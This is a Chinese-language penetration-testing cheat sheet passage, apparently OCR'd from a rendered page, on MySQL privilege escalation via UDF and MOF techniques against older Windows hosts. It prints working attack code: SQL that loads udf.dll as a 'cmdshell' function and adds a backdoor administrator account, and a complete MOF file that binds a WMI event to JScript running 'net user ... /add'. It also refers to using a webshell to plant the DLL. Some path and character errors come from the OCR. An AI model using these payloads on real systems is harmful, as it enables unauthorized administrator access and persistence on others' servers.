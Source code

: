     ### ⼗七、提权

    **MySQL 两种提权⽅式**

    udf 提权，mof 提权

    **MySQL_UDF 提取**

    要求:

    1. ⽬标系统是 Windows (Win2000,XP,Win2003)；
    2. 拥有 MYSQL 的某个⽤户账号，此账号必须有对 mysql 的 insert 和 delete 权限以创建和抛弃函数
    3. 有 root 账号密码 导出 udf: MYSQL 5.1 以上版本，必须要把 udf.dll ⽂件放到 MYSQL 安装⽬录下的 libplugin ⽂件夹下才能创建⾃定义函数 可以再 mysql ⾥输⼊` select @@basedir`

    ```
    show variables
    ```

    `like ‘%plugins%’ `寻找 mysql 安装路径 提权:

    使⽤ SQL 语句创建功能函数。语法：Create Function 函数名（函数名只能为下⾯列表中的其中之⼀）returns string soname ‘导出的 DLL 路径’；

    ```
    create function cmdshell returns string soname ‘udf.dll’
    select cmdshell(‘net user arsch arsch /add’);
    select cmdshell(‘net localgroup administrators arsch /add’);
    
    drop function cmdshell;
    ```

    该⽬录默认是不存在的，这就需要我们使⽤ webshell 找到 MYSQL 的安装⽬录，并在安装⽬录下创建 libplugin ⽂件夹，然后将 udf.dll ⽂件导出到该⽬录即可。

    **MySQL mof 提权**

    ```
    #pragma namespace("\\\\.\\root\\subscription")
    
    instance of __EventFilter as $EventFilter
    {
    EventNamespace = "Root\\Cimv2";
    Name = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
    };
    
    instance of ActiveScriptEventConsumer as $Consumer
    {
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")WSH.run(\"net.exe user waitalone waitalone.cn /add\")";
    };
    
    instance of __FilterToConsumerBinding
    {
    Consumer = $Consumer;
    Filter = $EventFilter;
    };
    ```
